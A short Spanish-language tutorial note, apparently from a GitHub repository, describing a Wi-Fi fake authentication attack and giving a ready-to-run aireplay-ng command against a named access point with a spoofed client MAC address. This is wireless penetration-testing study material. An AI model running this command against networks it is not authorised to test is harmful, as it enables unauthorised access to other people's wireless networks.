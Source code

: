 # Ataque de Falsa Autenticación 

Este ataque se basa en inyectar clientes a un punto de acceso, para poder realizar este ataque vamos a usar la herramienta `aireplay-ng`

`aireplay-ng --fakeauth 0 -e Telecentro-36e7 -a 08:7B:12:9E:36:E8 -h 00:00:8f:da:ab:54 wlan0mon`

![imagen](https://github.com/user-attachments/assets/837f546b-c558-4e7a-be3e-61dd25407755)

